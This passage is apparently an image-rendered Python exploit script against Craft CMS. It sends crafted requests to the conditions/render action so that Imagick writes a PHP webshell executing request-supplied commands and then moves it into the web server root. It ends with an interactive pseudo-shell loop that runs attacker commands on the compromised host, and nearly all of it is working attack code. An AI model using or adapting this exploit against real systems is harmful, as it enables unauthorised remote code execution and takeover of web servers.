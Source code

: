 ```python
if 'no value' in tmp_dir:
	tmp_dir = '/tmp'

print(f'temporary directory: {tmp_dir}')
print(f'web server root: {document_root}')

## Create shell.php in tmp_dir

data = {
    "action": "conditions/render",
    "configObject[class]": "craft\elements\conditions\ElementCondition",
    "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"msl:/etc/passwd"}}}'
}

files = {
    "image1": ("pwn1.msl", """<?xml version="1.0" encoding="UTF-8"?>
    <image>
    <read filename="caption:<?php @system(@$_REQUEST['cmd']); ?>"/>
    <write filename="info:DOCUMENTROOT/shell.php"/>
    </image>""".replace("DOCUMENTROOT", document_root), "text/plain")
}

print(f'\033[1;96m[+]\033[0m create shell.php in {tmp_dir}')
r = requests.post(url, data=data, files=files) #, proxies={'http' : 'http://127.0.0.1:8080'}) #  


# Use the Imagick trick to move the webshell in DOCUMENT_ROOT

data = {
    "action": "conditions/render",
    "configObject[class]": r"craft\elements\conditions\ElementCondition",
    "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:' + tmp_dir + r'/php*"}}}'
}

print(f'\033[1;96m[+]\033[0m trick imagick to move shell.php in {document_root}')
r = requests.post(url, data=data) #, proxies={"http": "http://127.0.0.1:8080"})

if r.status_code != 502:
    print("\033[1;31m[-]\033[0m Exploit failed")
    exit()

print(f"\n\033[1;95m[+]\033[0m Webshell is deployed: {HOST}/\033[1mshell.php\033[0m?cmd=whoami")
print(f"\033[1;95m[+]\033[0m Remember to \033[1mdelete shell.php\033[0m in \033[1m{document_root}\033[0m when you're done\n")
print("\033[1;92m[!]\033[0m Enjoy your shell\n")

url = HOST + '/shell.php'

## Pseudo Shell
while True:
    command = input('\033[1;96m>\033[0m ')
    if command == 'exit':
        exit()

    if command == 'clear' or command == 'cls':
        print('\n' * 100)
        print('\033[H\033[3J', end='')
        continue

    data = {'cmd' : command}
    r = requests.post(url, data=data) #, proxies={"http": "http://127.0.0.1:8080"})
```
